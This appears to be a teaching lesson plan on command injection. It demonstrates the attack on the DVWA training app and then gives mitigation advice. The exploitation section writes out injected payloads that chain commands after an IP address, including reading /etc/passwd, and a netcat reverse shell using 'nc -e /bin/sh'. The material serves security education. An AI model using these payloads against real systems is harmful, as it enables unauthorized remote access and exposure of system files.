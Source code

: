 # Command Injection

Command injection happens when an attacker can effectively force the web servers terminal interface to execute a command. Like all injection attacks, this happens when user input is used in an unsafe way. Command injection is a very severe vulnerability, and can almost always be used to gain a "reverse shell" giving the attacker significant access to the server.

## Objectives

* Describe command injection.
* Execute a command injection attack.
* Mitigate command injection.

## Lesson Plan

### What is Command Injection (5 minutes)

* This is just like the other injection attacks we've seen, but a different target.
* Instead of, say, running a SQL command we're trying to run a terminal command.
* Simple!

### Execute Command Injection on DVWA (5 minutes)

* Do a real IP address first, note that its running the ping command.
* It's just giving us the raw output, so cool.
* Simple linux trick, lets use a ;
* 127.0.0.1; ls -la
* 127.0.0.1; cat /etc/passwd


* Very common thing to do: get a "reverse shell"
  * Slightly harder in the real world, since your computer needs a public ip, deal with firewalls, and NAT
  * But still, all of this can often be overcome if you can do command injection.
  * Set a terminal listening with `nc -l 1337`
  * Send the command: `127.0.0.1; nc 127.0.0.1 1337 -e /bin/sh`
    * nc reaches out to the server we created.
    * -e says "send the input from that server to this program"
    * So after we connect, nc forwards our commands to the targets /bin/sh, executing our commands.
    * You can get a "full shell" with tab autocomplete and all the goodies after this, see:
      * https://medium.com/bugbountywriteup/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2
  * Other useful commands to run if we find such a vulnerability: https://portswigger.net/web-security/os-command-injection


* Other vulnerabilities like file inclusion can lead to command injection. For Example:
  * User uploads a PHP file to a PHP server (like apache).
  * That PHP file contains the PHP code to execute a command.
  * Attacker now sends requests to the webpage they basically created!
  * :(

### Mitigate Command Injection (5 minutes)

* Don't make calls to the terminal from your web app.
  * JUST DON'T DO IT!
  * There is almost always another way to do whatever you want to do without invoking the OS in the application directly.
  * It is not worth the risk, if you need some functionality from the OS, find a way to mimic it in code.
* If you don't use user input, i.e. `run_command("ping 127.0.0.1")` you won't be vulnerable to command injection.
  * But you still might question why you need this functionality in the first place.
* Do not try to sanitize or validate user input to then pass into the command line, clever attackers can basically always break your validation code.
